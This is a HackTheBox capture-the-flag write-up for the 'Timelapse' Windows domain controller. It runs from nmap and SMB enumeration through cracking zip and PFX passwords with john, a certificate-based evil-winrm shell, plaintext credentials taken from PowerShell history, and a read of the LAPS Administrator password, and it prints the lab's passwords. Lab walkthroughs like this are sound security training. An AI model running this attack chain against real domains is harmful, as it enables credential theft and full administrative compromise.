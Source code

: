 ```yaml
---
title: HTB | Timelapse
author: Zeropio
date: 2022-05-28
categories: [Pentesting, HackTheBox]
tags: [htb, windows, easy]
permalink: /pentesting/htb/machines/timelapse
---
```


![HTB Img](/assets/img/hackthebox/card/Timelapse.png)


# Enumeration
We can see thanks to the ping that is a Windows:
```
> ping 10.10.11.152
PING 10.10.11.152 (10.10.11.152) 56(84) bytes of data.
64 bytes from 10.10.11.152: icmp_seq=1 ttl=127 time=51.7 ms
```
**ttl=127**

First we scan the ports:
```
# Nmap 7.92 scan initiated Sun May 22 20:33:04 2022 as: nmap -p- -sS --min-rate 5000 --open -v -oG allPorts 10.10.11.152
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.152 ()	Status: Up
Host: 10.10.11.152 ()	Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 5986/open/tcp//wsmans///, 9389/open/tcp//adws///, 49667/open/tcp/////, 49673/open/tcp/////, 49674/open/tcp/////, 49696/open/tcp/////, 61941/open/tcp/////	Ignored State: filtered (65518)
# Nmap done at Sun May 22 20:33:45 2022 -- 1 IP address (1 host up) scanned in 40.27 seconds
```

We executed the (getPorts.sh)[https://raw.githubusercontent.com/zeropio/the_helpful_scripts/main/nmap/getPorts.sh] command to scan each one:
```console
# Nmap 7.92 scan initiated Sat May 28 00:43:09 2022 as: nmap -sVC -p 53,88,135,139,389,445,464,636,3268,3269,5986,9389,49667,49673,49674,49696,61941 -Pn -oN nmapFull 10.10.11.152
Nmap scan report for 10.10.11.152
Host is up (0.065s latency).

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-28 06:43:16Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5986/tcp  open     ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-05-28T06:44:46+00:00; +7h59m59s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf        .NET Message Framing
49667/tcp open     msrpc         Microsoft Windows RPC
49673/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open     msrpc         Microsoft Windows RPC
49696/tcp open     msrpc         Microsoft Windows RPC
61941/tcp filtered unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s
| smb2-time: 
|   date: 2022-05-28T06:44:08
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

&nbsp;
---

# Explotation

## Samba
We can confirm that is a Windows. Let's try the samba:
```console
> smbclient -L \\\\10.10.11.152\\  
Password for [WORKGROUP\zeropio]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
```

We can test those folders:
```console
> smbclient \\\\10.10.11.152\\ADMIN$
Password for [WORKGROUP\zeropio]:
tree connect failed: NT_STATUS_ACCESS_DENIED

> smbclient \\\\10.10.11.152\\C$    
Password for [WORKGROUP\zeropio]:
tree connect failed: NT_STATUS_ACCESS_DENIED

> smbclient \\\\10.10.11.152\\IPC$
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

> smbclient \\\\10.10.11.152\\NETLOGON
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

> smbclient \\\\10.10.11.152\\SYSVOL
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

Finally, **Shares** have some files:
```console
> smbclient \\\\10.10.11.152\\Shares
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 17:39:15 2021
  ..                                  D        0  Mon Oct 25 17:39:15 2021
  Dev                                 D        0  Mon Oct 25 21:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 17:48:42 2021
```
We download all of them.

### zip
If we try to unzip the file:
```console
> unzip winrm_backup.zip                
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

We need to break it with **john**:
```console
> sudo john --format=PKZIP --wordlist=/usr/share/wordlists/rockyou.txt zip-hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**supremelegacy**    (winrm_backup.zip/legacyy_dev_auth.pfx)
```

### pfx
We get the following file: **legacyy_dev_auth.pfx**. If we try to open it, it ask for a password.
Let's break it with john again:
```console
> sudo john --format=pfx --wordlist=/usr/share/wordlists/rockyou.txt pfx-hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**thuglegacy**       (legacyy_dev_auth.pfx) 
```
We can see some ssl certs:
![HTB Img](/assets/img/hackthebox/labs/timelapse/zeropio-28012153.jpg)

```console
> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
> openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt 
```

### shell
We can use **evil-winrm** to access. Thanks to the nmap we now that ssl is enable, so we need to add **-S**:
```console
> evil-winrm -i 10.10.11.152 -c cert.crt -k prv.key -S
Enter PEM pass phrase:
	*Evil-WinRM* PS C:\Users\legacyy\Documents>
```

&nbsp;
---

# Privilage Escalation
If we check the history we can see something:
```console
PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We will set all the variables, know we can executed the code below in the history.
Let's try to get the admin password with LDAP:
```console
PS C:\Users> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

Now we just need to login as **Administrator**:
```console
> evil-winrm -i 10.10.11.152 -S -u 'Administrator' -p 'h8#+vv+;q{E4u9+9u+-2c%+;' 
```
